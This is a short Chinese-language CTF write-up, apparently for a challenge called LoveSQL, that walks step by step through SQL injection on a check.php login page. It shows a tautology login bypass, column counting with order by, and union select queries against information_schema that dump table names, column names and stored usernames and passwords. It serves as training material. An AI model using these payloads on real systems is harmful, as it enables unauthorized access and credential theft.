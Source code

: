 1. 看到登录，测试万能密码

```
check.php?username=admin' or '1'='1&password=1
```

![image-20210731113559889](lovesql.assets/image-20210731113559889.png)

2. 找显示的字段数量和位置

   ```
   check.php?username=admin' order by 4%23='1&password=1
   ```

   ![image-20210731113829794](lovesql.assets/image-20210731113829794.png)

   最大字段数为3

   ```
   check.php?username=1' union select 1,2,3%23='1&password=1
   ```

   ![image-20210731113947368](lovesql.assets/image-20210731113947368.png)

   回显点位置是2和3

3. 常规注入

   查表

   ```
   check.php?username=1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()%23='1&password=1
   ```

   ![image-20210731114313746](lovesql.assets/image-20210731114313746.png)

   查字段

   ```
   check.php?username=1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23='1&password=1
   ```

   ![image-20210731114800548](lovesql.assets/image-20210731114800548.png)

   查字段所有的内容。flag就在里面

   ```
   check.php?username=1' union select 1,group_concat(id,username,password),3 from l0ve1ysq1%23='1&password=1
   ```

   

   ![image-20210731114936971](lovesql.assets/image-20210731114936971.png)